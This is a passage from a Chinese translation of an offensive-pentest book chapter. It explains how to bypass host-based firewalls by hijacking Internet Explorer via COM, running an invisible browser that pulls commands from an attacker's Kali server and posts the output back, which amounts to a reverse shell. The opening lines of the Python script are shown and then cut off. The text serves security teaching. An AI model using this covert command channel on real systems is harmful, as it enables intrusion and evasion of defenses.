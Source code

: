 # 第四章：追捕我吧！

在今天的世界里，绕过和劫持软件在互联网上到处都是。然而，明确的使用和执行方式才是让你成为一名优秀的业余黑客的关键。

这可以通过正确选择工具并遵循必要的过程，完美地完成手头的任务来实现。

在本章中，我们将涵盖以下主题，帮助你实现这一目标：

+   绕过基于主机的防火墙

+   劫持 IE

+   绕过拒绝过滤

+   与 SourceForge 互动

+   与 Google Forms 互动

+   绕过僵尸网络过滤

+   利用手工 XOR 加密绕过 IPS

# 绕过基于主机的防火墙

在我们之前的所有章节中，我们假设目标机器上的任何进程都可以在没有任何限制的情况下启动与互联网的连接。现在，在许多企业网络中，他们不再依赖内置的 Windows 防火墙。相反，他们使用高级的基于主机的防火墙来限制哪些进程可以启动与互联网的连接，就像访问控制列表（ACL）一样工作。因此，假设系统管理员只允许一些业务所需的进程访问互联网。例如，假设系统管理员允许 Windows 更新和杀毒软件更新，以及常见的浏览器，如 Chrome、Internet Explorer 和 Firefox。因此，只有这些进程被允许访问互联网，其他任何进程都会被阻止。通过实施这样的策略，我们的后门无法存活，因为它默认不会列入管理员的允许列表。最终，我们无法获得对攻击者机器的 shell。

然而，如果我们找到一种方法，能够利用我们的 Python 脚本某种方式控制**Internet Explorer**（**IE**），然后迫使它在后台连接到我们的 Kali HTTP 服务器并来回传输命令，那么我们就能绕过基于主机的防火墙策略。微软提供了**组件对象模型**（**COM**），以支持进程间通信，并通过编程方式创建对象来控制和自动化多个微软产品，如 Outlook、Internet Explorer、Word 和 Excel。Internet Explorer 是所有 Windows 版本中内置的浏览器；因此，它应该始终可用，并且通常被安全管理员列为白名单中的备份浏览器，以防其他浏览器无法使用。让 Internet Explorer 代替我们发起连接的另一个好处是，如果目标在连接互联网之前使用了内部代理，那么你不必担心知道代理信息，因为 Internet Explorer 会为我们处理这一切。

所以，我们在这里做的是假设主机防火墙只允许某些进程，如杀毒软件、Firefox、Internet Explorer 或 Windows 更新，其他的都不允许。为此，在我们的 Python 脚本中，我们将定义一个 COM 对象来控制 Internet Explorer。然后，我们将让 Internet Explorer 导航到我们位于 Kali 机器上的 HTTP 服务器，并获取需要执行的命令。

一旦我们得到需要执行的命令，我们将启动一个子进程。我们检索命令并传递给 EXE。然后，使用 COM 对象，我们将通过 Python 脚本将其返回并启动`cmd.exe`作为子进程。使用 COM 对象获取的命令结果，我们会将其传递给 Internet Explorer，然后将其发布到我们位于 Kali 机器上的网站。如果你记得，这种技术与我们之前的 HTTP 反向 Shell 非常相似，但这里的关键区别是我们使用 Internet Explorer 作为我们的 Web 客户端，而不是像之前那样使用`requests`库。从主机防火墙的角度来看，最终的结果是，Python 脚本并没有启动任何外部会话，而是 Internet Explorer 启动了会话。

以下链接将提供有关 COM 协议的更多信息：[`claudihome.com/html/LR/WebHelp/Content/VuGen/132800_click_and_script.htm`](http://claudihome.com/html/LR/WebHelp/Content/VuGen/132800_click_and_script.htm)

# 劫持 IE

一如既往，使用 Python 编程将使你的生活更加轻松。现在，要在 Python 中使用 COM，你只需要安装 Python for Windows 或`pywin`库。由于我们在创建之前的键盘记录器时已经安装了这个库，这里就不再详细讲解了。现在，让我们进入编码部分：

```
# Python For Offensive PenTest

# Install Python for Windows pywin32-219.win32-py2.7
# http://sourceforge.net/projects/pywin32/files/pywin32/Build%20219/

# Hijacking IE - Shell Over IE

from win32com.client import Dispatch
from time import sleep
import subprocess

ie = Dispatch("InternetExplorer.Application") # Create browser instance.
ie.Visible = 0 # Make it invisible [ run in background ] (1= invisible)
...
```
